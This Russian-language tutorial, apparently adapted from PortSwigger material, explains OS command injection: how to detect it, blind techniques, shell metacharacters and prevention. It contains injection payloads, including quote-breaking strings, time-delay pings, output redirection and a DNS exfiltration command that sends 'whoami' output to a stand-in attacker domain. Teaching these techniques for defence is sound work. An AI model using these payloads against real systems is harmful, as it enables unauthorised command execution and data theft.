

https://portswigger.net/web-security/os-command-injection
# 1. OS command injection (внедрение команд ОС)


`Инъекция команд ОС` также называется инъекцией оболочки. Это позволяет злоумышленнику выполнять команды операционной системы (ОС) на сервере, который работает под управлением приложения, и, как правило, полностью компрометировать приложение и его данные. Часто злоумышленник может использовать уязвимость инъекций команды ОС, чтобы скомпрометировать другие части инфраструктуры хостинга, и использовать доверительные отношения, чтобы переключить атаку на другие системы в организации. 

## Инъекции команд ОС
В этом примере приложение для покупок позволяет пользователю проверить, есть ли товар на складе в конкретном магазине. Эта информация доступна через URL:
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```
Чтобы показать статус наличия товара, приложение запрашивает данные из старых (унаследованных) систем. По историческим причинам это делается необычным способом: приложение запускает команду в командной оболочке операционной системы (например, в Linux‑терминале), передавая ей два числа — `ID товара` и `ID магазина`. Выглядит это так:
```
stockreport.pl 381 29
```
Эта команда запускает скрипт `stockreport.pl`, который обращается к базам данных, узнаёт статус запаса для товара с `ID 381` в магазине с `ID 29` и возвращает результат пользователю.

Приложение не проверяет и не фильтрует данные, которые вводит пользователь. Это значит, что злоумышленник может «встроить» свою команду прямо в поле ввода (например, в `productID`).

Предположим, злоумышленник вводит вот такой текст в поле `productID`:
```
& echo aiwefwlguh &
```
Что происходит на самом деле ?

Вместо ожидаемой команды `stockreport.pl 381 29` приложение формирует и выполняет вот что:
```
stockreport.pl & echo aiwefwlguh & 29
```
1. `&` — это специальный символ в командной оболочке Linux/Unix. Он служит разделителем команд: всё, что стоит до `&`, выполняется как отдельная команда, и всё, что после, — тоже.

Оболочка видит три отдельные команды и выполняет их одну за другой:
* `stockreport.pl` — скрипт запускается, но без нужных аргументов (381 и 29), поэтому выдаёт ошибку.
* `echo aiwefwlguh` — команда `echo` просто выводит на экран текст, который ей передали (aiwefwlguh). Это классический способ проверить, работает ли инъекция: если вы видите этот текст в ответе приложения, значит, ваша команда выполнилась.
* `29` — оболочка пытается выполнить число 29 как команду. Но такой команды нет, поэтому выводится `ошибка 29: command not found`.

Вывод программы будет выглядеть так:
```
Error - productID was not provided
aiwefwlguh
29: command not found
```
Этот вывод — прямое доказательство уязвимости:
* Первая строка: `stockreport.pl` выполнился без аргументов и выдал ошибку.
* Вторая строка: наша инъекционная команда `echo` сработала и вывела заданную строку.
* Третья строка: оставшийся фрагмент (`29`) был ошибочно воспринят как команда и вызвал ошибку.

Обратите внимание: злоумышленник добавил два символа `&` — один перед своей командой, другой после. Второй `&` очень важен: он отделяет инъекционную команду (`echo aiwefwlguh`) от остального текста, который приложение пытается добавить после точки инъекции (в нашем случае это `29`).

Если бы второго `&` не было (`& echo aiwefwlguh`), оболочка попыталась бы выполнить `echo aiwefwlguh 29`, что не привело бы к ошибке, но и не показало бы чётко, что инъекция сработала. А с `&` мы гарантированно получаем три отдельные команды, и результат каждой виден в выводе.

## Полезные команды
После того, как вы идентифицируете уязвимость инъекций команд ОС, полезно выполнить некоторые начальные команды для получения информации о системе. Ниже приведено резюме некоторых команд, которые полезны на платформах Linux и Windows:


||||
|---|---|---|
|Цель команды|Linux|Windows|
|Имя текущего пользователя|whoami|whoami|
|Операционная система|uname -a|ver|
|Конфигурация сети|ifconfig|ipconfig /all|
|Сетевые соединения|netstat -an|netstat -an|
|Запуск процессов|ps -ef|tasklist|

## Уязвимости слепых инъекций команд ОС (Blind OS Command Injection)
Многие уязвимости типа «инъекция команд ОС» являются слепыми (`blind`). Это значит, что приложение не возвращает вывод выполненной команды в HTTP‑ответе (например, в виде текста на веб‑странице). 

Пользователь не видит результата выполнения введённой команды напрямую. Но это не делает уязвимость безопасной: злоумышленник может использовать косвенные методы, чтобы подтвердить наличие уязвимости и извлечь данные.

Представьте веб‑сайт с формой обратной связи. Пользователь вводит:
* адрес электронной почты;
* текст сообщения.

Сервер получает эти данные и отправляет администратору письмо, используя команду `mail`:
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```
**Проблема**: вывод команды `mail` (если он есть) не отображается в ответе приложения. Поэтому простая проверка через `echo` (как в неслепых инъекциях) не сработает — вы не увидите строку‑маркер на экране.

Но злоумышленник всё ещё может эксплуатировать эту уязвимость, используя другие техники.

### Методы обнаружения и эксплуатации слепых инъекций
### 1. Обнаружение с помощью временных задержек
**Идея**: заставить сервер «задуматься» на несколько секунд. Если ответ от сервера приходит с задержкой, это косвенный признак того, что ваша команда выполнилась.

**Инструмент**: команда `ping`. Она отправляет сетевые пакеты (ICMP) и ждёт ответов. Можно указать количество пакетов (`-c`), чтобы контролировать длительность задержки.

**Пример полезной нагрузки**:
```
& ping -c 10 127.0.0.1 &
```
**Что происходит**:
* `ping -c 10 127.0.0.1` — команда пингует локальный сетевой адаптер (loopback, 127.0.0.1) и отправляет 10 пакетов.
* Каждый пакет требует времени на обработку, поэтому выполнение команды занимает около 10 секунд.
* Если приложение отвечает с задержкой в 10 секунд, это подтверждает, что инъекция сработала.

**Плюсы метода**: прост в реализации, не требует доступа к файловой системе или внешним серверам.  
**Минусы**: может быть заметен для систем мониторинга безопасности.

### 2. Эксплуатация через перенаправление вывода в файл
**Идея**: сохранить результат выполнения команды в файл на сервере, а затем получить этот файл через браузер.

**Инструменты**:
* `whoami` — выводит имя текущего пользователя ОС;
* оператор `>` — перенаправляет вывод команды в указанный файл.

**Пример полезной нагрузки**:
```
& whoami > /var/www/static/whoami.txt &
```
**Что происходит**:
* Команда `whoami` выполняется на сервере.
* Её вывод (например, www-data) записывается в файл `/var/www/static/whoami.txt`.
* Злоумышленник открывает в браузере URL: `https://vulnerable-website.com/whoami.txt`.
* Если файл существует и доступен, браузер покажет содержимое — имя пользователя ОС.

**Важные условия**:
* У веб‑сервера должны быть права на запись в указанную директорию (`/var/www/static/`).
* Директория должна быть доступна через веб (чтобы файл можно было скачать).

**Плюсы**: надёжный способ получить данные.  
**Минусы**: требует знания структуры файловой системы сервера и прав доступа.

### 3. Эксплуатация с использованием внедиапазонных (OAST) методов
`OAST` (Out‑of‑Band Technique) — техника, при которой команда инициирует внешний сетевой запрос на сервер, контролируемый злоумышленником. Это позволяет подтвердить выполнение команды и извлечь данные даже при полном отсутствии вывода в HTTP‑ответе.

**Инструмент**: `nslookup` — утилита для выполнения DNS‑запросов.
#### Шаг 1. Подтверждение выполнения команды
Полезная нагрузка:
```
& nslookup kgji2ohoyw.web-attacker.com &
```
**Что происходит**:
* Команда `nslookup` выполняет DNS‑запрос для домена `kgji2ohoyw.web-attacker.com`.
* DNS‑сервер злоумышленника регистрирует этот запрос.
* Факт запроса подтверждает, что команда выполнилась на уязвимом сервере.

#### Шаг 2. Извлечение данных через DNS
Можно встроить результат команды в имя домена. Например:
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
**Что происходит**:
* Сначала выполняется команда `whoami`, которая возвращает имя пользователя (например, wwwuser).
* Результат подставляется в домен: `wwwuser.kgji2ohoyw.web-attacker.com`.
* nslookup отправляет DNS‑запрос для этого полного домена.
* Злоумышленник видит в логах DNS‑сервера запрос для `wwwuser.kgji2ohoyw.web-attacker.com` и получает результат команды.

**Плюсы OAST**:
* работает даже при строгих ограничениях файловой системы;
* позволяет извлекать большие объёмы данных;
* часто обходит традиционные средства защиты (WAF).

**Минусы**:
* требует контроля над DNS‑сервером или использования специализированных инструментов (например, `Burp Collaborator`).

## Способы внедрения команд ОС
Для атак типа «инъекция команд ОС» злоумышленники используют специальные символы оболочки (`мета‑символы`). Эти символы позволяют встраивать свои команды в запросы приложения.

### Командные сепараторы
`Командные сепараторы` — символы, которые позволяют объединять несколько команд в одной строке. Они говорят оболочке: «выполни эту команду, а затем следующую».

**Работают и в Windows, и в Unix**
* `&` — выполняет команды последовательно, независимо от успеха/ошибки предыдущей:
```
command1 & command2
```
Сначала выполняется `command1`, затем — `command2`, даже если command1 завершилась с ошибкой.
* `&&` — выполняет вторую команду только если первая завершилась успешно:
```
dir && echo "Успех!"
```
Если команда `dir` выполнится без ошибок, отобразится текст «Успех!».
* `|` (вертикальная черта, `pipe`) — передаёт вывод первой команды на вход второй:
```
ls -la | grep "file"
```
Команда `ls -la` выводит список файлов, а `grep "file"` ищет среди них строки с подстрокой `file`.
* `||` — выполняет вторую команду только если первая завершилась с ошибкой:
```
some_nonexistent_command || echo "Первая команда не сработала"
```
**Работают только в Unix‑системах (Linux, macOS)**
* `;` — выполняет команды последовательно, аналогично `&`:
```
pwd; whoami
```
Сначала выводится текущая директория (`pwd`), затем — имя пользователя (`whoami`).
* Символ новой строки (`\n` или `0x0A`) — оболочка воспринимает каждую строку как отдельную команду. В веб‑запросах это может быть закодировано как `%0a`:
```
echo "Первая строка"
echo "Вторая строка"  # две команды, разделённые переносом строки
```
### Встраивание команд
В Unix‑системах можно встроить результат выполнения одной команды внутрь другой. Это позволяет динамически формировать команды.

* Обратные кавычки `command` — старый, но всё ещё работающий синтаксис:
```
echo "Текущая дата: `date`"
```
Сначала выполнится `date`, затем её вывод подставится в строку для `echo`.

* Синтаксис `$()` — современный и более гибкий способ:
```
echo "Текущая директория: $(pwd)"
```
Аналогично обратным кавычкам, но лучше работает с вложенными командами.

**Пример инъекции**: если приложение формирует команду так:
```
echo "Отзыв пользователя: $user_input"
```
Злоумышленник может ввести: `whoami`

Итоговая команда станет:
```
echo "Отзыв пользователя: `whoami`"
```
И в выводе появится имя пользователя ОС.

### Работа с контекстом кавычек
Часто пользовательский ввод подставляется в команду, которая уже заключена в кавычки. Например:
```bash
some_command "Пользовательский ввод: $user_input"
```
В таком случае обычные сепараторы (`;`, `&`) не сработают — они будут частью строки в кавычках.

**Решение**: сначала закрыть кавычки, а затем добавить свою команду:
1. Если ввод подставляется в двойные кавычки (`"..."`), злоумышленник может ввести: `"; whoami #`  
Итоговая команда:
```bash
some_command "Пользовательский ввод: "; whoami #"
```
* `"` — закрывает исходные двойные кавычки;
* `;` — разделяет команды;
* `whoami` — инъекционная команда;
* `#` — начинает комментарий, «отключая» оставшуюся часть исходной команды (всё после # игнорируется оболочкой).
2. Если ввод в одинарных кавычках (`'...'`), используется тот же принцип: `'; whoami #`

Важные нюансы:
* Тип кавычек (одинарные или двойные) должен соответствовать исходному контексту.
* Символ комментария (`#` в Unix, `::` или `REM` в Windows) помогает «заглушить» остаток команды, чтобы избежать синтаксических ошибок.

## Как предотвратить атаки инъекций команд ОС
Главная цель — не дать злоумышленнику выполнить произвольные команды на сервере через пользовательский ввод. Разберём основные методы защиты.

**Основной принцип**: избегайте вызова команд ОС

Самый надёжный способ защиты — не вызывать команды ОС из кода приложения. В большинстве случаев нужную функциональность можно реализовать безопаснее:
* Используйте встроенные функции языка программирования. Например, вместо вызова `rm -rf /tmp/old_files` в Python используйте `shutil.rmtree('/tmp/old_files')`.
* Применяйте платформенные API. Вместо `mkdir new_folder` используйте `os.mkdir('new_folder')` в Python или `Files.createDirectory()` в Java.
* Выбирайте библиотеки для работы с файлами, архивами, сетью — они абстрагируют вызовы ОС и снижают риски.

Почему это работает? Вы полностью исключаете взаимодействие с командной оболочкой, а значит, и возможность инъекции команд.

Иногда обойтись без вызова команд ОС нельзя (например, при интеграции со сторонними утилитами). В этом случае критически важна надёжная валидация ввода.

## Эффективные методы валидации
* Белый список разрешённых значений — разрешайте только заранее определённые, безопасные значения.  
Пример: если пользователь выбирает тип отчёта (daily, weekly, monthly), проверяйте ввод против списка:
```python
    allowed_types = ['daily', 'weekly', 'monthly']
    if user_input not in allowed_types:
        raise ValueError("Недопустимый тип отчёта")
```
* Проверка на числовой формат — если ожидается число (ID, порт, код), убедитесь, что ввод содержит только цифры:
```python
    if not user_input.isdigit():
        raise ValueError("Ожидалось число")
```
* Ограничение набора символов — допускайте только буквенно‑цифровые символы, запрещайте спецсимволы:
```python
    import re
    if not re.match(r'^[a-zA-Z0-9]+$', user_input):
        raise ValueError("Запрещены спецсимволы")
```
* Проверка формата данных — для email, URL, путей к файлам используйте регулярные выражения или специализированные библиотеки.
* Ограничение длины ввода — слишком длинные строки могут указывать на попытку инъекции.

**Чего делать не стоит**: почему экранирование — плохая идея

Не пытайтесь «дезинфицировать» ввод, экранируя мета‑символы оболочки. Это ненадёжно по нескольким причинам:
* Разнообразие оболочек. Символы, опасные в Bash (;, &, |, `, $()), могут отличаться в других оболочках.
* Обход через кодирование. Злоумышленник может использовать URL‑кодирование (%0a вместо \n), Unicode или другие техники.
* Вложенные инъекции. Экранирование может не сработать, если ввод проходит несколько этапов обработки.
* Ошибки реализации. Легко пропустить редкий, но опасный символ.

Пример неудачной защиты:
```python
# ПЛОХО: попытка экранировать отдельные символы
user_input = user_input.replace(';', '').replace('&', '')
os.system(f"ls {user_input}")  # Всё ещё уязвимо!
```
## Дополнительные меры защиты
Даже при валидации ввода используйте дополнительные слои защиты:
* Запуск с минимальными привилегиями — приложение должно работать под учётной записью с ограниченными правами. Если злоумышленник выполнит команду, она не сможет повредить систему.
* Разделение привилегий — критичные операции (работа с БД, файловой системой) выполняйте в отдельных процессах с повышенными правами, а основной код — с минимальными.
* Использование безопасных методов вызова команд:
    * Передача аргументов отдельно от команды. Вместо os.system("ls " + user_input) используйте subprocess.run(["ls", user_input]). В этом случае ввод не интерпретируется как команда.
    * Отключение интерпретации оболочки. В Python: subprocess.run(..., shell=False). Это предотвращает выполнение мета‑символов.
* Мониторинг и логирование — фиксируйте все вызовы команд ОС, особенно с пользовательским вводом. Аномалии (частые ошибки, странные команды) могут указывать на атаку.
* Регулярное обновление ПО — уязвимости в оболочках, утилитах или библиотеках могут дать злоумышленнику дополнительные возможности.
* Использование `WAF` (Web Application Firewall) — фильтруйте подозрительные запросы на уровне сети.
* Пентестинг и аудит кода — регулярно проверяйте приложение на уязвимости с помощью автоматизированных инструментов и ручного анализа.